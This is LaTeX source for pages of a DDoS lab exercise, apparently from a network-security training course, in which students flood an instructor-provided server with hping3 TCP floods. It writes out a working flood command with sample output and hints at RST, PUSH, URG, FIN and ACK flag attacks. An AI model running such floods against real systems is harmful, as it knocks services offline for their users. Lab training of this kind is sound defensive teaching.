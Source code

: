 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
{\bf Solution:}\\
When your team has sent +1 million packets per second into the network, from one or two laptops - you are done.

{\bf Discussion:}\\
Gigabit Ethernet can send up to 1.4 million packets per second, pps.

There is a presentation about DDoS protection with low level technical measures to implement at\\
{\footnotesize {}}

Receiving systems, and those en route to the service, should be checked for resources like CPU load, bandwidth, logging. Logging can also overload the logging infrastructure, so take care when configuring this in your own networks.


\chapter{\faInfoCircle\ TCP other flooding 15min}


{\bf Objective:}\\
Start a webserver attack using TCP flooding tool hping3.

{\bf Purpose:}\\
Run various other common attacks

TCP mode is default, so no option needed.


{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

\begin{alltt}
hping3 --flood -p 80 -R 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100%
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}


{\bf Hints:}\\
Common attacks use the SYN, as shown in previous exercise, but other popular
TCP attacks are RST, PUSH, URG, FIN, ACK attacks - setting one or more flags in the packets.
\end{document}

